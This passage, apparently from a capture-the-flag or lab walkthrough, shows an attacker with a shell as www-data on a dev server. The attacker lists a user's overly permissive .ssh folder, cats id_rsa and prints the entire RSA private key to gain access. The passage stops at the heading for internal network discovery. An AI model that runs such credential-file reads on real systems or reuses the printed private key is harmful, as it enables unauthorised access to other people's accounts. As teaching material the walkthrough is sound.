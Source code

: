 Ho, `.ssh` folder. And look at this rights. The user may have done something like `chmod 755 *` because we can read the file `.bash_history`. Or maybe `chmod -R 755 *` ? What a bad practice...

Let's check `.ssh` directory.

```
www-data@dev-server:/home/test/.ssh$ ls -al

total 20
drwxr-xr-x 2 test test 4096 Mar 10 23:16 .
drwxr-xr-x 3 test test 4096 Mar 10 23:16 ..
-rwxr-xr-x 1 test test  401 Mar 10 23:16 authorized_keys
-rwxr-xr-x 1 test test 1679 Mar 10 23:09 id_rsa
-rwxr-xr-x 1 test test  401 Mar 10 23:09 id_rsa.pub
```

Hahaha ! That what I said ! We can read his private ssh key !

```
www-data@dev-server:/home/test/.ssh$ cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA1f3hWbx2726sOiwm+gg8Td2261E7QSJhQHcQFEns7Ubonx6E
+YU4BgzQt136gK42RwoGOph8H/Tu0zfjGIx9IQOIDG8VmCItfUDFCexoqoZB2cj2
9sLKgA/VZqRJiSka1+uibcyIgFnyDegbSXt42J6XL6xZaT56aq539s8M/aFSWNEf
8yTBG7k4E0ZWqexBhXDK3rNJ1veH3EcJXBjYgitDLXSS/VPE7op6MlD5q7ZdNt28
45idJ5tT+U8xrht71oGiIswxi1dXz0VvjXOIJIk1iQIyRdiGIvPpHIY+Dxw2FTHo
pi7Z3M5hjoq36LQryHjVbUVaUrvkyeQtZXeDIQIDAQABAoIBAHloJrhAwsGo6rG+
ZwaoMX6D8cmkNpgHp2Fpq4e3QWKFPmk4aX0fZd+Y2bmO6hajwEuhllMcPB/tWKoh
JQjCfCOE22UiiP/dNC3B14h/xgopTab/642oijcJxKsNPmNBHOev2mGtDyyy2y+k
pgaUtMVBhMkZYUjil5V7ErjGU7p5CCqeZUditEMKq9eAAq8oNGq84L0ZKqx4dyPN
Ai36I8Nygk1SpYBod+K7lUYDDfd+ZPR/yEVhfHP9JqLdezfpeJW7SQvgc4Fb0rEY
+tvM0IfyIR/9tB7IrfNuXG6S+UjoP5eybasUMDn0sqSGYLfaq1pFZYolneDkrpeV
9mPBoAECgYEA+LJUBHTrdKWqxtwkugg05Iu5nEMTGhUmZ4b6x2MRGeadqPF6u9+R
0eubqX+oNWAKBgtHQSzE8faLnOJ6lc2oEN6jeukCDStYg//aIaEyZf2r/uBs0+zA
QNO8CQ5dXK5sowaFPgqXZ0mIFUmtDOgSm6M3IRc4BK6nYlxClVzTs4ECgYEA3Eal
GLMBNykaR0jCD1CartiTZay6ld1rCZVJWjONDgJGtzi0tW1j7Mr5jk0dwfp7cJVu
/Dx+sc4Om/nJ3h15pvvcrKnv0kPhqXX4h+dFmz2psTKmjYjpsff0eLRJS9JHVNEb
svu/zHqzzrRsm1un3Ikcvy0lnG31sg6kJ8EXH6ECgYEApe/Wv2KD+EDRwf4BQ19W
a2gPYIQgqraR+WHG0mL3diC58Y+uJMz3rulV47KZuYNrLL05vfLxNcEbRoKW6H1g
NmFXExuFkuPpG6oLEYVM62Bm8pksA/tkC907CY/cG4sGUYB4Rv0qKHCXrByMqp/u
SoqMrjef2P/wD2EfzCkz2AECgYBIr98m6VrLUvri7vVqjFSewcTR1k+zyF7byLFt
3Hj9WG7xYvruq2w/5TK4bGYXbopxOj5naab9EVvsyF5+twc/vPiy2VjT76Z1fwJG
BmEHuy9V07r2FWnYWlQHyKYvKPJ04JPdWgmOdicDXLJCCdq4gV5FD6bLmdVrrj0p
CSSSQQKBgQCI3TUMYeR/4+86B6i2sldPVtn52QrOHeaDwRfZ1Z7TRYPY6gIvKBLd
VVU6YcP0KwZUHeUOC7qNxSCTnB7FkANad+D/7a0MGqAGCmWChS5GD6zpqhW+tKkY
zc9Ur+20TJHIwAKloaZLiMdcpdyFUQQRStXCGD6wqbw8UxGfx1Fd0g==
-----END RSA PRIVATE KEY-----
```

Perfect ! We have our access.

# Step 6 : Internal network discovery
